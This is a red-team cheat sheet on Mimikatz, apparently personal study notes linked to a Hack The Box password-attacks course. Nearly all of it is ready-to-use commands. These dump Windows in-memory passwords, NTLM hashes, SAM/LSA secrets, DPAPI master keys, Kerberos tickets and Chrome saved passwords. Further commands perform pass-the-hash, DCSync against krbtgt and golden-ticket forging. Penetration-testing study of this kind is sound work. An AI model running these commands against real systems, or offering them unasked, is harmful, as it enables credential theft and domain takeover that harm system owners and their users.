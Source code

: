 # Mimikatz

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

<div class="row row-cols-lg-2"><div>

[mimikatz](https://github.com/gentilkiwi/mimikatz) <small>(18.7k ⭐)</small> is the most popular tool to dump Windows credentials or perform attacks such as [Pass-the-hash/Pass-the-ticket](/cybersecurity/red-team/s4.privesc/index.md#pass-the-xxx).

```shell!
PS> .\mimikatz.exe
mimikatz# privilege::debug
mimikatz# # run commands
mimikatz# exit
```

To dump credentials, hashes, tickets, etc. you can use:

```shell!
mimikatz# sekurlsa::logonPasswords full # in memory passwords
mimikatz# sekurlsa::ekeys           # dump rc4+ntlm hashes
mimikatz# sekurlsa::dpapi           # dump DPAPI master key
mimikatz# sekurlsa::tickets /export # dump tickets
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive /security:./security.hive
mimikatz# lsadump::lsa /patch
mimikatz# vault::list # list credential manager vaults
mimikatz# vault::cred # list credentials
mimikatz# kerberos::list /export # cat b64 | tr -d '\n' | base64 -d > cn.kirbi
```

To perform a pass-the-hash attack using a `rc4` or `NTML` hash:

```shell!
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy /run:cmd.exe
mimikatz# sekurlsa::pth /user:xxx /ntlm:XXX /domain:xxx.yyy /run:cmd.exe
```
</div><div>

To perform a DCSync attack (Admin required)

```shell!
mimikatz# lsadump::dcsync /user:example\krbtgt
mimikatz# lsadump::dcsync /user:example\krbtgt /domain:example.com
```

We can decrypt secrets encrypted using DPAPI master key using:

```shell!
mimikatz# dpapi::blob /in:"encrypted_file" /unprotect /masterkey:xxx
mimikatz# dpapi::chrome /in:".\Login Data" /unprotect /masterkey:xxx
```

To decrypt chrome passwords:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

Request a TGS ticket:

```shell!
mimikatz# kerberos::ask /target:cn # request TGS for cn
```

📚 See also: [pypykatz](pypykatz.md) for Linux users.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [thehacker.recipes](https://tools.thehacker.recipes/mimikatz)

Golden ticket (Admin not required)

```shell!
mimikatz# kerberos::golden /user:dummy /domain:dev.example.com /sid:<child domain SID> /krbtgt:<hash> /sids:<target domain SID> /ptt
```

Got the following errors and no fix worked. I manually dumped the LSASS memory (40MB!) and analyzed it on Linux. Otherwise, use Impacket secrets dump, it works fine.

```text!
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)
```
</div><div>

If not the default:

```shell!
mimikatz# base64 /out:true
```
</div></div>